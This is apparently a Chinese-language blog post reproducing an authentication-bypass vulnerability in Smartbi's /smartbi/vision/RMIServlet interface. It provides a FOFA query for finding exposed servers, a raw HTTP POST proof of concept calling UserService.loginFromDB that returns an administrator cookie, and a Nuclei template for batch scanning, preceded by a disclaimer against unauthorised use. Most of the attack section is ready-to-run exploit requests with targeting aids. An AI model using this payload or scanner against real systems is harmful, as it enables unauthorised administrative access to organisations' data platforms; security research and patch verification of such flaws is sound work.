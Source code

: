# 原创
：  漏洞复现--Smartbi smartbivisionRMIServlet 接口权限绕过漏洞

# 漏洞复现--Smartbi smartbivisionRMIServlet 接口权限绕过漏洞

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

Smartbi大数据分析产品融合BI定义的所有阶段，对接各种业务数据库、数据仓库和大数据分析平台，进行加工处理、分析挖掘和可视化展现，满足所有用户的各种数据分析应用需求，如大数据分析、可视化分析、探索式分析、复杂报表、应用分享等等。该产品存在接口绕过漏洞，攻击者可通过此漏洞绕过登录流程。

### 二：漏洞影响版本

Smartbi

### 三：网络空间测绘查询

fofa<br/> `body="gcfutil = jsloader.resolve('smartbi.gcf.gcfutil')"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/333238811326047639cdab8bdad02ab6.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/f3fb432e5fa5bb74bb864e74dbea8b23.jpeg"/><br/> poc:

```
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 68

className=UserService&amp;methodName=loginFromDB&amp;params=["service","0a"]

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c8a36ae6e773ff988ef97f6363734917.jpeg"/><br/> 获取到的cookie为管理用户，可直接利用进入后台<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/870430d9be051c0796c4bd107e418493.jpeg"/>

### 批量检测

```
id: Smartbi-smartbivisionRMIServlet-interface-permission-bypass 

info:
  name: Smartbi-smartbivisionRMIServlet-interface-permission-bypass 
  author: 芝士土拨鼠
  severity: high
  description: description

requests:
  - raw:
      - |-
        POST /smartbi/vision/RMIServlet HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        Content-Type: application/x-www-form-urlencoded
        Accept-Encoding: gzip
        Content-Length: 68

        className=UserService&amp;methodName=loginFromDB&amp;params=["service","0a"]

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - 'true'
      - type: status
        status:
          - 200

```
